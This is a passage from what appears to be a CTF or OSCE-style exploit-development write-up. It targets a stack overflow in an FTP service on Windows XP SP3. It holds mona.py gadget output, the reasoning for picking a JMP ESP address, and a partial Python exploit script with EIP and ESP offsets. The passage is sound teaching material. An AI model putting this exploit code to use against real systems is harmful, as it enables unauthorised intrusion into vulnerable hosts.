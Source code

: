 ``` txt
77DEEFFC     0x77deeffc : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77DEF0B2     0x77def0b2 : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E18153     0x77e18153 : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
77E1C23B     0x77e1c23b : call esp |  {PAGE_EXECUTE_READ} [ADVAPI32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 33 pointers
0BADF00D
           [+] This mona.py action took 0:00:01.281000
```

Isn't that just sweet? Lots of options here, though it does tie us down to a particular platform and using addresses like these will not work on Vista and later thanks to ASLR. Perhaps we can come up with a solution to this down the track.

I dug a little deeper in `jmp.txt` which contained all the addresses, and decided to settle on `0x7e4456f7` (a `JMP ESP` instruction) which is located in `user32.dll`. I chose this one because the only byte that isn't in the `ASCII` table is the last one, and it was my attempt and minimising the possibility of a bad character causing problems. I modified the exploit so that `EIP` would contain this value, and changed the code in `ESP` so that it would break once the jump had been performed. I also starting building in the support for multiple platforms for easy adjustment later on.

``` python
#!/usr/bin/python

import socket, struct

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

# the start of our collection of supported platforms
targets = [
  { 'Name': 'Windows XP SP3', 'JMPESP': 0x7e4456f7 }
]

# Hard coded target for now
target = targets[0]

print "[*] Attacking {0}:{1} ...".format(host, port)
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux